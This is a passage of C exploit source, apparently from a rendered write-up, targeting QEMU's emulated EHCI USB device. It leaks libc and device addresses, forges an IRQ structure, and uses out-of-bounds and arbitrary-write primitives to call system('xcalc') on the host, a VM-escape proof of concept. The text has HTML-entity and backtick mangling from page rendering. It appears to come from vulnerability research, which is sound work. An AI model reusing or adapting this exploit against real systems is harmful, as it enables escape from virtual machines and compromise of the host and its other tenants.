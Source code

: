 ```
    for(int i=0x4fc;i&lt;0x4fc+6;i++)`{`
        uint64_t tmp = first_leak_data[i] &amp; 0xff;
        func_addr |= tmp &lt;&lt; ((i-0x4fc) * 8);
    `}`

    printf("\033[47;31m[*] Func addr : 0x%lx\033[0m\n",func_addr);

    uint64_t system_addr = func_addr - 0xb5c860;

    printf("\033[47;31m[*] System addr : 0x%lx\033[0m\n",system_addr);

    sleep(3);

    printf("\033[41;37m[*] Step 2/3\033[0m\n");

    anywhere_read(port_addr);

    for(int i=0;i&lt;6;i++)`{`
        uint64_t tmp = second_leak_data[i] &amp; 0xff;
        port_ptr |= tmp &lt;&lt; ((i) * 8);
    `}`

    uint64_t EHCIState_addr = port_ptr - 0x540;
    uint64_t irq_addr = EHCIState_addr + 0xc0;
    uint64_t fake_irq_addr = data_buf_addr;
    uint64_t irq_ptr = 0;

    anywhere_read(irq_addr);

    for(int i=0;i&lt;6;i++)`{`
        uint64_t tmp = second_leak_data[i] &amp; 0xff;
        irq_ptr |= tmp &lt;&lt; ((i) * 8);
    `}`

    printf("\033[47;31m[*] Port ptr : 0x%lx\033[0m\n",port_ptr);
    printf("\033[47;31m[*] EHCIState addr : 0x%lx\033[0m\n",EHCIState_addr);
    printf("\033[47;31m[*] IRQ addr : 0x%lx\033[0m\n",irq_addr);
    printf("\033[47;31m[*] Fake IRQ addr : 0x%lx\033[0m\n",fake_irq_addr);
    printf("\033[47;31m[*] IRQ ptr : 0x%lx\033[0m\n",irq_ptr);

    *(unsigned long *)(data_buf + 0x28) = system_addr;
    *(unsigned long *)(data_buf + 0x30) = device_addr+0xdc+0x100;
    *(unsigned long *)(data_buf + 0x38) = 0x3;
    *(unsigned long *)(data_buf + 0x100) = 0x636c616378;

    printf("\033[41;37m[*] Step 3/3\033[0m\n");

    oob_write(0, 0xffff, 0xffff,1);

    anywhere_write(irq_addr, fake_irq_addr,1);

    return 0;
`}`
```
